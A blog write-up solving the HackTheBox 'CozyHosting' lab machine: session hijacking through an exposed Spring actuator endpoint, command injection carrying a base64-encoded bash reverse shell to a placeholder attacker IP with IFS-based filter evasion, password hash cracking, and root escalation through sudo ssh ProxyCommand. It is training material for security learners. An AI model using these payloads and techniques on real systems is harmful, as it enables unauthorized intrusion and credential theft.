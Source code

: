 HackTheBox write up: “CozyHosting” Machine
==========================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/1*8PgWCWtteykN7zPXDqImEQ.jpeg)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-cozyhosting-machine-8b55beb59ace&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----8b55beb59ace---------------------post_header-----------)

5 min read·Just now

\--

Listen

Share

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/879cc2ee-bedc-448e-8f5a-1fdc65ee1e8c)


Welcome To HACKTHEBOX:CozyHosting machine writeup. It is an easy machine with a focus on web application vulnerabilities and privilage escalation vulnerabilities.

we first start by running a basic nmap scan against the machine ip

```
nmap -sV -sC 10.10.11.230 
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c3c02c60-5f67-4549-b72e-d91dec6843fe)


We can see here that we have port 22 and 80 open, which indicates the existance of web application running on port 80, and SSH service running on port 22, lets take a look at the web application
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/5f3096be-c5ba-4ede-a450-7b96c86c73e0)


Web application

we can observe a web application with a login functionailty, we can visit and try testing for SQL Injection in the login page, but without success.

next step is to enumerate the web application for any hidden directories, we can use different tools, i personally prefer Dirsearch.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/df171dce-4bed-4cf0-9c99-c1a235303f92)


we found few intresting directories, by visiting them, we can find valuable information in the /actuator/sessions directory, as it contains session cookies for the users
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/eed4db23-58ae-4ba5-84fc-735bcbbb12f0)


And by trying to visit the /admin panel, and intercepting the requesting, modifying the session cookie and replacing it with the one we got from /actuator/sessions, we find that we get redirected to the admin dashboard with the admin “kanderson” logged in.

After a quick inspection to the dashboard we find that there is a feature to add a new host to the automatic patching.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/480cc798-d6b1-4544-8ea1-807df7c4e3f6)


After trying to submit data through it, and analyzing the requests in the burpsuite proxy, we find that the submit button calls and endpoint /excutessh
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/39720675-c0e6-4e09-8fdf-b0e9854b87d2)


after poking with it alittle, we find that submitting single quote returns the following error:

```
http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching \`''/bin/bash: -c: line 2: syntax error: unexpected end of file
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/687529cc-c0f0-4827-ad2c-545c139697ea)


which allows for the possibilty of command injection, lets try using our payload

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

we are going to base64 encode our payload that that we dont have to use spaces in the payload, as the application filters it out

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

`${IFS%??}` Explanation:

*   `${IFS}`: This is a special shell variable in Unix-like operating systems that stands for "Internal Field Separator." By default, it is set to a space, tab, and newline characters. It's used by the shell to split lines into fields when processing commands.
*   `${IFS%??}`: This is a string manipulation construct in the shell. It trims the last two characters from the `${IFS}` variable. So, if `${IFS}` is set to the default value (space, tab, newline), `${IFS%??}` effectively removes the last two characters (newline and tab) and leaves only the space character, which is required for the payload to run correctly.

Additionally, as the web application may interpret the special characters differently or sanitize them to prevent malicious commands from being executed, we URLEncode our payload.

we start a listener and submit our payload, and we get a reverse connection

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/0894c592-d909-4ca0-96c2-2e03d064644f)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/26b6cfd2-e020-4d48-9666-3c57a00fdebf)

Upon listing looking for files, we find a directory named josh in the /home directory, but we cant access it, we can also see a .jar file in the /app, we download this file into our machine for futher inspection.

we can download it by running a python http.server and then using wget from our machine to download the file.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/563a5ea9-f256-4642-bfc8-a0bf72b5e5e7)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/b118bb7c-6327-4de8-b946-e1bb25a7459d)



we can start inspecting this file using tool like jd-gui
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/906a8cca-c720-4475-808b-837b5534946f)


after inspecting we can find that it contains postgres database credentials like the username and the password, so we try to login in to the postgres database using the commnads:

```
psql -h 127.0.0.1 -U postgres
``````
\\c cozyhosting
``````
\\d #to list availabe databases
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c7d07dc7-f747-413d-b30a-b5511df006b4)

```

select \* from users; #To select all data in the users database

```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/2032451d-df9e-4898-8a5a-75523888c34c)

the passwords is hashed, we can try to crack it using john the ripper, with the following command, pointing to the wordlist to use ( in this case rockyou.txt will be sufficient )

```
john hash.txt --wordlist=/home/zeronull/rockyou.txt
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/d0966515-7398-4b64-a993-8df4d8349f9b)

now we can try to use this password to ssh into the machine using the user josh

```
ssh josh@10.10.11.230 
```

And we succesfully log in with the user josh, and we can access his directory, and access the user flag.txt

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/7086d8bb-afe1-44c8-88a7-edaffc56b70f)


Privilege Escalation
====================

As for the root flag, we need to do Privilege Escalation in order to access the root directory.

we start by checking the allowed commands for our user to run as root without the passowrd, we check by running sudo -l
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/42fe3acc-e0e8-49aa-b3f5-7181f9e65855)


we see that we can run (root) /usr/bin/ssh \* as root without having to have the root password, lets check the GTFObins if we can abuse this to escalate our privileges to root.

we find:

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/35470ea6-3de5-4d88-a001-c83bcd1a66df)

and by running

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

we get our root access successfully.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/f68ef66e-4fff-438f-ad98-8a7c34087c83)


and thats how we get our root flag.
